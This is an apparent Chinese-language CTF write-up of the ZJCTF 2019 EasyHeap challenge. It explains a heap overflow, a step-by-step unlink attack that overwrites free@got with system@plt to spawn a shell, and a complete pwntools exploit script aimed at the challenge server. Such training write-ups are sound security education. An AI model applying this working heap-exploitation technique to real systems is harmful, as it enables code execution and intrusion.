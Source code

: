 ```yaml
---
title: ZJCTF 2019 EasyHeap
tags: [ctf-pwn,exp]
date: 2022-11-29 15:09:00
categories: [ctf-pwn]
excerpt: unlink 漏洞例题
---
```


#### 题目链接

<https://buuoj.cn/challenges#[ZJCTF%202019]EasyHeap>

#### 漏洞

很明显在`ceate_heap`中size并没有存下来，然后`edit_heap`时也是用户自己输入size来编辑

因此可以溢出

#### 利用

checksec发现没有开启PIE，heaparray的地址可以直接使用

1. 首先申请三个chunk

   ```python
   add(0x90,b"MMMM")
   add(0x90,b"MMMM")
   add(0x20,b"/bin/sh\x00")
   ```

2. 构造一个unlink需要在第一个chunk内构造一个fakechunk

   ```python
   fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
   fake_chunk = fake_chunk.ljust(0x90,b'M')
   fake_chunk += p64(0x90) + p64(0xa0)
   edit(0,0x100,fake_chunk)
   ```

   ![](/img/[ZJCTF2019]EasyHeap/1.jpg)

   对于chunk 0，`fd = heaparray - 0x18` `bk = heaparray - 0x10`，unlink chunk 0 时会将heaparray[0]指向`heaparray - 0x18`

3. 这时delete(1)，会将chunk 1 和 fakechunk 合并起来放入 unsorted bin

   ![](/img/[ZJCTF2019]EasyHeap/2.jpg)

   查看heaparray地址上的值：
   
   ![](/img/[ZJCTF2019]EasyHeap/3.jpg)
   
   说明fakechunk成功完成unlink操作，heaparray[0]指向了0x6020c8
   
4. 这时edit(0)会从0x6020c8这个地址开始写，因此

   ```python
   payload = p64(0)*3 +p64(free_got)
   edit(0,0x20 ,payload)
   ```

   又一次覆盖了heaparray[0]，指向了`free@got`

5. 这时edit(0)会修改`free@got`的内容

   ```python
   edit(0,8,p64(system_plt))
   ```

   将其函数改为system函数的plt表

   > 因为system没有被调用过，不能直接改成system@got

6. delete(2)会调用free("/bin/sh")，而free函数被替换成了system，因此得到了shell

#### 完整exp

```python
from pwn import *
r = remote("node4.buuoj.cn",27679)
elf = ELF("./easyheap")
def add(size,content):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap:")
    r.sendline(content)
def edit(idx, size, content):
    r.recvuntil("Your choice :")
    r.sendline('2')
    r.recvuntil("Index :")
    r.sendline(str(idx))
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap : ")
    r.sendline(content)
def delete(idx):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil("Index :")
    r.sendline(str(idx))

heaparray_addr = 0x6020E0
system_plt = elf.plt['system']
free_got = elf.got['free']

add(0x90,b"MMMM")
add(0x90,b"MMMM")
add(0x20,b"/bin/sh\x00")
#gdb.attach(r)

fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
fake_chunk = fake_chunk.ljust(0x90,b'M')
fake_chunk += p64(0x90) + p64(0xa0)
edit(0,0x100,fake_chunk)
delete(1)
#gdb.attach(r)
payload = p64(0)*3 +p64(free_got)
edit(0,0x20 ,payload)
#gdb.attach(r)
edit(0,8,p64(system_plt))
delete(2)
r.interactive()
```

